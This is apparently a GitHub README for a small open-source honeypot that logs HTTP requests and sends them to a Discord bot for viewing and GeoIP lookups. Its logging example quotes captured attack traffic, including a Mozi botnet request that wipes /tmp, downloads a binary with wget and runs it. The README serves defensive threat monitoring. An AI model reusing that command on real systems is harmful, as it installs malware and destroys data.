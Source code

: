 # Home Alone 
A simple and open source honeypot system for detecting and tracking live threats on the internet. 

	- Logging the requests being made, the addresses and the time.
	- Discord bot to interact with the honeypot and see whats happening in real time.
More features to come.

## Logging 
Requests to the server are logged by date/time (files created each time you start honeypot).
Here's an example of some of the malicious traffic I've seen: 

```
====================================================================
Connection at 4/19/2021 - 0:41:23 :
{"5.178.86.76" : "b'POST http://check.best-proxies.ru/azenv.php?s=VJVJVDNRIJOOVEVCPRNRPJUONNURYR HTTP/1.1\r\nHost: check.best-proxies.ru\r\nCookie: testCookie=true\r\nUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0\r\nReferer: https://best-proxies.ru/\r\nContent-Type: application/x-www-form-urlencoded\r\nContent-Length: 13\r\nConnection: close\r\n\r\ntestPost=true\r\n\r\n'"
================================================================================
Connection at 4/19/2021 - 16:10:54 :
{"<redacted>" : "b'GET /shell?cd+/tmp;rm+-rf+*;wget+http://<redacte>:35094/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1\r\nUser-Agent: Hello, world\r\nHost: <removed>\r\nAccept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8\r\nConnection: keep-alive\r\n\r\n'"
================================================================================
```

## Discord Bot 
Using the discord bot you can retrieve and view these logs in real time as well as do GeoIP lookups:
```
"{\n  \"ip\": \"211.40.129.246\",\n  \"city\": \"Seonghwan\",\n  \"region\": \"Chungcheongnam-do\",\n  \"country\": \"KR\",\n  \"loc\": \"36.9156,127.1314\",\n  \"org\": \"AS3786 LG DACOM Corporation\",\n  \"postal\": \"31014\",\n  \"timezone\": \"Asia/Seoul\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"

"{\n  \"ip\": \"46.43.113.22\",\n  \"hostname\": \"adsl-46.43.113.22.mada.ps\",\n  \"city\": \"Ramallah\",\n  \"region\": \"West Bank\",\n  \"country\": \"PS\",\n  \"loc\": \"31.8996,35.2042\",\n  \"org\": \"AS51407 Mada ALArab LTD\",\n  \"timezone\": \"Asia/Hebron\",\n  \"readme\": \"https://ipinfo.io/missingauth\"\n}"
```

**working on a feature for automated reporting to AbuseIPDB.com**

## Setup 
Because this needs  to be run on the public internet, you can try changing to port 8080, adding a lower privilege user an running from that account. By default this is setup to run to grab headers and requests of HTTP traffic on port 80 by default. 

Create a `.env` file in the `/HomeAlone/code/` Directory. This is where you should put:
```
HONEY=IP_ADDRESS_OF_HONEY_POT
HOSTN=HOST_NAME_OF_HONEY_POT_USER
TOKEN=DISCORD_BOT_API_TOKEN
ABUSE=FREE_ABUSE_IPDB_API_TOKEN 
``` 
Last one is optional (and not fully functional yet). 

### Creating a discord bot 
Once you have the code running on your honeypot, you can go [here](https://discord.com/developers/applications) and add the DiscordBot add-on. 

The bot needs permissions for reading/writing into channels, adding reactions/emojis/embeds. 


### Contributing 
I would be happy to have more experienced people help me improve this project. If you want to 
make contributions feel free to make a pull request, and we can chat about how to make this more effective. 